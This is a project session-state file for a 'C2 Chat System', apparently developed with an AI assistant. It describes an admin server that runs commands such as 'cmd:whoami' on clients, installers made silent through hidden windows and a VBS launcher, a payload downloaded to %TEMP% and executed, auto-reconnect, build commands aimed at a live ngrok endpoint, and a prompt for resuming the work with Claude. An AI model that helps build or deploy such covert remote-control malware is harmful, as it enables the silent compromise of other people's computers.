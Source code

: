 # C2 Chat System - Session State
**Last Updated:** 2025-08-04

## 🎯 Project Overview
- **Purpose:** Command & Control chat system with admin web interface and silent CLI clients
- **Architecture:** Node.js server + React admin frontend + Node.js CLI clients
- **Current Endpoint:** `0.tcp.ngrok.io:14513`

## 📂 Project Structure
```
mysimplec2/
├── server/              # Express.js WebSocket server
├── admin-frontend/      # React admin interface
├── client/              # CLI client installers
├── docker-compose.yml   # Container orchestration
└── CLAUDE.md           # Project requirements
```

## 🔧 Recent Work Completed

### 1. Fixed Installer Connection Issues
- **Problem:** HTTP connection reuse causing "socket hang up" errors
- **Solution:** 
  - Replaced `http.get()` with `http.request()`
  - Added 2-second delays between downloads
  - Force `Connection: close` headers
  - Better error handling

### 2. Created Truly Silent Installer
- **Problem:** Blank terminal window showing during installation
- **Solution:** 
  - Fixed VBS launcher implementation
  - Added `windowsHide: true` flags
  - PowerShell `-WindowStyle Hidden`
  - Proper process detachment

### 3. Build System Updates
- **Script:** `./build-all.sh <server-host:port>`
- **Outputs:**
  - `dist/install.exe` - Completely silent installer
  - `dist/debug-install.exe` - Debug version with logging
  - `dist/installer-lite.exe` - Compressed version
  - `dist/release/` - Full distribution package

### 4. Created .gitignore Files
- Excludes all build artifacts, executables, databases
- Added Claude AI file exclusions (`CLAUDE.md`, `*claude*`)
- Separate .gitignore for each component

## 💻 Key Commands

### Start Server
```bash
cd /home/kali/Desktop/research/mysimplec2
docker-compose up
```

### Build All Installers
```bash
cd client
./build-all.sh 0.tcp.ngrok.io:14513
```

### Test Debug Version
```bash
# On Windows: Run dist/debug-install.exe
# Check logs at: %TEMP%\installer-debug.log
```

## 🐛 Issues Resolved
1. ✅ npm ci error → Fixed with npm install
2. ✅ Feedback loop errors → Fixed broadcast logic
3. ✅ "pkg: command not found" → Changed to npx pkg
4. ✅ Client not appearing → Changed from auto-delete to offline status
5. ✅ Socket hang up errors → Fixed connection handling
6. ✅ Blank terminal window → Created truly silent installer

## 📝 Important Files

### Client Files Modified
- `truly-silent-installer.js` - Main silent installer (no console)
- `fixed-debug-installer.js` - Debug version with file logging
- `build-all.sh` - Updated to build all versions

### Key Features
- **Admin Commands:** Send "cmd:whoami" to execute on client
- **Auto-reconnect:** Clients reconnect every 5 seconds
- **Room deletion:** Terminates connected clients
- **Clear all rooms:** Removes all clients and history

## 🔑 Technical Details

### WebSocket Protocol
```javascript
// Client connects
ws://server:port

// Messages
{
  type: 'message',
  message: 'cmd:ipconfig',
  sender: 'admin'|'client'
}

// Termination
{
  type: 'terminate',
  message: 'Room deleted'
}
```

### Installer Download Process
1. Download client.zip (14MB compressed)
2. Wait 2 seconds (connection close)
3. Extract to %TEMP%\ChatClient
4. Download launcher.vbs
5. Start chat-client-silent.exe
6. Exit installer process

## 📦 Distribution Options
1. **Single file:** `install.exe` (37MB, recommended)
2. **Two files:** `install.vbs` + `installer-lite.exe`
3. **Debug version:** `debug-install.exe` (with logging)
4. **Tiny batch:** `tiny-installer.bat` (1KB)

## 🚀 Next Session Quick Start
1. Check ngrok endpoint: May have changed from 14513
2. Rebuild if needed: `./build-all.sh NEW-ENDPOINT`
3. Test with debug version first
4. Check logs at `%TEMP%\installer-debug.log`

## 📌 Current State
- ✅ Server running on Docker
- ✅ All installers building correctly
- ✅ Silent installation working without console
- ✅ Debug logging available when needed
- ✅ Git ignoring sensitive files

## 🔄 To Resume Work
Show this file to Claude:
```
"I'm continuing work on the C2 chat system. 
Here's the session state: [paste SESSION_STATE.md]
Current issue: [describe what you need help with]"
```